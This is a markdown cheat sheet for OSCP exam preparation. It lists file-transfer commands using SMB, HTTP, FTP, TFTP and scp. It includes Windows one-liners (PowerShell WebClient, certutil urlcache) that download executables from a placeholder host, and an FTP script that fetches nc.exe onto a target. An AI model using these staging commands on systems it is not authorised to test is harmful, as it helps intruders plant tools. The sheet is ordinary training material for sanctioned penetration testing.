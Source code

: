 # OSCP File Transfer Checklist

## Introduction

## Table of Contents

- [OSCP File Transfer Checklist](#oscp-file-transfer-checklist)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [SMB Server](#smb-server)
  - [HTTP](#http)
    - [Server](#server)
    - [Client](#client)
  - [Pure-FTPd](#pure-ftpd)
  - [tftp](#tftp)
  - [scp](#scp)

## SMB Server

```sh
impacket-smbserver share . -smb2support -user user -password test1230
```

```cmd
net use z:\ \\<smbserver>\share /USER:user test123
copy z:\ .
```

## HTTP

### Server

```sh
python -m SimpleHTTPServer 8080
```

```sh
service apache2 start
```

### Client

Windows
``` cmd
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<IP>/file.exe','C:\temp\file.exe')"
iwr -uri http://<IP>/file -Outfile c:\temp\file
wget http://<IP>/file -O file
curl http://<IP>/file -o file
certutil -urlcache -f http://<IP>:803/ok.exe ok.exe  
```

Linux
```sh
wget http://<IP>/file
curl http://<IP>/file > file
```

## Pure-FTPd
Note: sudo apt update && sudo apt install pure-ftpd

```sh
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

Transfer
```
echo open <IP> 21> ftp.txt
echo USER <user> >> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```
```
ftp -v -n -s:ftp.txt
```

## tftp

Note :  install atftp
Coofig
```
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```
Transfer
```
tftp -i <IP> get file
```

## scp

Local File to a Remote System
```sh 
scp file <user>@192.168.0.20:/home/<directory>/
```
Remote File to a Local System
```sh 
scp <user>@192.168.0.20:/home/<directory>/ file
```

